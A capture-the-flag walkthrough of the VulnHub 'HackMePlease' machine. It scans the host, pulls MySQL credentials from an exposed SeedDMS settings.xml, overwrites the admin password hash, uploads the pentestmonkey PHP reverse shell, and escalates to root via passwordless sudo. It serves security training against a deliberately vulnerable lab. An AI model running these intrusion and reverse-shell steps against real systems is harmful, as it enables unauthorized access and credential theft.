# HackMePlease CTF Walkthrough
 
This document provides a detailed walkthrough of the **Capture the Flag (CTF)** challenge published on the **VulnHub** website. According to the information provided by the author, the difficulty level of this CTF is **EASY-MEDIUM**, and the goal is to obtain **root access** to the target machine and find the **flag files**.
 
You can download the CTF [here](https://www.vulnhub.com/entry/hackme-1,731/).
 
---
 
## **Brief Overview of the CTF Solution Steps**
 
1. Obtain the **target machine's IP address** (**netdiscover**).
2. Scan the **target machine's open ports** (**nmap**).
3. Check the **HTTP service** and look for hints.
4. Investigate the **MySQL** service.
5. Obtain remote access.
6. Perform privilege escalation.
---
 
### 1. Obtaining the **Target Machine's IP Address**
 
```sh
sudo netdiscover -r 192.168.56.0/24
```
 
### 2. Scanning the **Target Machine's Open Ports**
 
```sh
nmap -sC -sV -p- 192.168.56.107 --reason
```
 
We get the following:

 
So now we have information for further investigation of the web service and the DB service.
 
### 3. Investigating the Web Server
 
In the browser we open http://192.168.56.107, and get:
 

 
Looking at what we're dealing with, it turns out to be a free tool for project managers.
 
Let's identify the available directories:
 
**Detailed breakdown of the command**
```sh
gobuster dir -u http://10.0.2.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
```
 
After a few minutes we get the following result:
 

 
There are several options for further investigation, so let's begin.
 
---
 
## Investigating SeedDMS and Exploitation
 
This page does not provide much information, but viewing the **page source** allows us to see JavaScript files, in particular **main.js**, which contains a reference to a directory:
 

 
After opening the file **main.js**, we can see the path:
**/seeddms51x/seeddms-5.1.22/**
 
Navigating to this path leads to the **SeedDMS login panel**.
 

 
---
 
## Investigating SeedDMS
 
Standard credentials were tested:
 
* `admin:admin`
* `admin:password`
Neither combination worked.
 
A search online for SeedDMS vulnerabilities revealed the possibility of **Remote Command Execution (RCE)**, but exploiting it requires authentication.
 
At this stage it seemed there was no obvious way forward.
 
---
 
## 🔎 Re-scanning Directories
 
**gobuster** was run again for the `/seeddms51x/` directory:
 
```bash
gobuster dir --url http://192.168.56.107/seeddms51x/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html,zip
 
```

As a result, the following directory was discovered:
 
```
/conf/
```
 
It is accessible at:
 
```
http://192.168.56.107/seeddms51x/conf/
```
 
---
 
## Analyzing the Structure of the Configuration Files
 
Further investigation of the SeedDMS source code structure (using [SeedDMS source code – conf directory](https://sourceforge.net/p/seeddms/code/ci/master/)
) provided insight into the location of the configuration files.
 
After identifying the `/conf` directory with **gobuster** and navigating into it, several configuration files were discovered, which give a better understanding of the SeedDMS file structure.
 

 
Among them is the file:
 
```
settings.xml.template
```
 

 
This file is a **template for the main configuration file**, which is named:
 
```
settings.xml
```
 
By navigating to:
 
```
http://192.168.56.107/seeddms51x/conf/settings.xml
```
 
we can obtain the **settings.xml** file, which contains important configuration parameters.
 
---
 
## Obtaining MySQL Credentials
 

 
During the analysis of the `settings.xml` file, MySQL credentials were discovered:
 
```xml
dbUser="seeddms" 
dbPass="seeddms"
```
---
 
## Step 3: MySQL Enumeration
 
To connect to the database, the following command was used:
 
```bash
mysql -h 192.168.56.107 -u seeddms -p seeddms --ssl=0
```
 
After connecting, we run the command:
 
```sql
SHOW DATABASES;
```
 

 
Since we are already inside the seeddms database, let's look at what's in it:
 
The following tables were discovered in this database:
 
```sql
SHOW TABLES;
```

 
```sql
DESCRIBE users;
```
 

 
```sql
SELECT * FROM users;
```

 
```sql
SELECT * FROM tblUsers;
```

 
---
 
### 📋 Analysis of the users Table
 
```sql
SELECT * FROM users;
```
 
Credentials for the following user were found in the table:
 
* **User:** `saket`
* **Password:** `Saket@#$1337`
An attempt to log in with these credentials failed.
 
---
 
### 📋 Analysis of the tblUsers Table
 
```sql
SELECT * FROM tblUsers;
```

In this table, credentials for the user **admin** were found, but the password is stored as a **hash**:
 
```
f9ef2c539bad8a6d2f3432b6d49ab51a
```
 
It was determined that this is an **MD5** hash.
Attempts to decrypt it via online services did not yield a result.
 
Instead of brute-forcing the hash, a different approach was used:
a custom MD5 hash was created for a known password and the value in the database was directly replaced.
 
---
 
### Replacing the Administrator's Password
 
For example, the MD5 hash for the word `12345Qwerty`:
```
a76beaa42a7c65d1b3d49cb4757e6b91
```

 
Command to update the password:
 
```sql
UPDATE tblUsers 
SET pwd='a76beaa42a7c65d1b3d49cb4757e6b91' 
WHERE login='admin';
```

 
 
After this, logging into the system as user **admin** with password **12345Qwerty** was successful.

---
 
## Step 4: Exploiting Remote Command Execution
 
After successful authentication, we return to the exploit found earlier.
Using the authenticated session, a **PHP reverse shell** was uploaded.
 
### Steps:
 
1. Download the reverse shell:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
 
2. Modify the `$ip` and `$port` parameters according to the attacker's machine.
```sh
$ip = '192.168.56.108';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```
 
3. Upload the file via the **Add Document** section in SeedDMS.

 
4. After uploading, hovering the cursor over the file shows the path to the file in the bottom-left corner of the browser.
   From this link, the **document ID** is determined (in our case `5`).
   **http://10.0.2.17/seeddms51x/seeddms-5.1.22/out/out.ViewDocument.php?documentid=5&showtree=1**

 
5. Start **nc** and listen on port **3421**:
```bash
nc -lnvp 4444
```
 
6. Execute the shell:
```
http://192.168.56.107/seeddms51x/data/1048576/5/2.php
```
The parameters are taken from the official documentation and mean the following:
 
```text
data/{contentOffsetDir}/{document_ID}/{version_ID}.{extension}
         1048576              5              2         php
```
[Link to the official documentation:](https://sourceforge.net/p/seeddms/code/ci/seeddms-5.1.x/tree/conf/settings.xml.template)
 
7. A shell with limited privileges of the user **www-data** was obtained.

 
> The obtained shell is unstable. To improve interactivity, it is recommended to upgrade it to a full terminal.
```sh
python -c "import pty; pty.spawn('/bin/bash')"
```
No Python available :-), so we use what we have:
```sh
script -qc /bin/bash /dev/null
```
---
 
## ⬆️ Privilege Escalation
 
Checking home directories:
 
```bash
ls /home
```
 
The user `saket` was found, but access is restricted.
 
Since the credentials are already known (`saket:Saket@#$1337`), we run:
 
```bash
su saket
```

Checking sudo privileges:
 
```bash
sudo -l
```

 
It turned out that the user `saket` has **full passwordless sudo privileges**, which allows running any commands as root.
 
Obtaining root access:
 
```bash
sudo /bin/sh
```
 
---
 
##  Root access obtained, congratulations!
 
